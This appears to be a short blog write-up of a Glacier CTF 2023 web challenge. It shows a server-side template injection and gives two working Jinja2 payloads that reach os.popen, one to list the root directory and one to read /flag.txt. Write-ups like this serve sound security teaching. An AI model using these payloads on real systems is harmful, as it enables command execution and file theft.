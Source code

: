 ```yaml
---
author: pl4int3xt
layout: post
title: Glacier CTF 2023
date: '2023-11-25 10:44:23 +0300'
cover: img/cover_images/46.png
description: "Glacier CTF 2023"
categories: [CTF, Glacier CTF 2023]
---
```


> I just created my first website! You can even do some calculations! Don't forget to check out my other projects!
author: Chr0x6eOs

We open the website and there is nothing interesting and so we try to check out the other projects 

![img-description](/img/glacier-ctf-2023/1.png)

We are brought to this page and immediately what pops in my brain is SSTI

![img-description](/img/glacier-ctf-2023/2.png)

I try injecting something to see the changes and indeed the website has an SSTI

![img-description](/img/glacier-ctf-2023/3.png)

Next let's check what's in the / directory and we see the file flag.txt using the following payload

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cd / && ls')['read']()}}{% endraw %}
```


![img-description](/img/glacier-ctf-2023/4.png)

Next we create a payload to read the flag.txt file

```python
{% raw %}{{request['application']['__globals__']['__builtins__']['__import__']('os')['popen']('cat /flag.txt')['read']()}}{% endraw %}
```

![img-description](/img/glacier-ctf-2023/5.png)

